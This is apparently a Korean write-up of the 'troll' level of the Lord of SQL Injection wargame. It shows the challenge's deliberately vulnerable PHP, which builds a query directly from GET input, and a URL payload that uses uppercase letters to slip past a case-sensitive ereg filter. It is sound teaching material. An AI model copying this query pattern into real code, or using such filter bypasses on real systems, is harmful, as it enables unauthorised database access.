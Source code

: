 # Lord of SQL Injection No.8 - troll
## 문제 출제 의도 
ereg 필터링을 우회하여 id값으로 admin을 전달할 수 있는지 확인한다.
## 소스 코드 분석
```php
<?php  
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/\'/i', $_GET[id])) exit("No Hack ~_~");
  if(@ereg("admin",$_GET[id])) exit("HeHe");
  $query = "select id from prob_troll where id='{$_GET[id]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id'] == 'admin') solve("troll");
  highlight_file(__FILE__);
?>
```
~~~
if(@ereg("admin",$_GET[id])) exit("HeHe");
~~~
전달받은 id값에 admin이라는 문자열이 포함되어 있으면 문제 풀이에 실패하는 것을 알 수 있다.
## Solution
1. ereg함수의 특징 이용
+ ereg 함수는 대소문자를 구별하고, MYSQL에서는 구별하지 않는다.
~~~
http://los.eagle-jump.org/troll_6d1f080fa30a07dbaf7342285ba0e158.php?id=Admin
~~~
+ 이와 같이 admin중에 하나라도 대문자가 있으면 필터링되지 않고 admin이라는 값이 전달된다.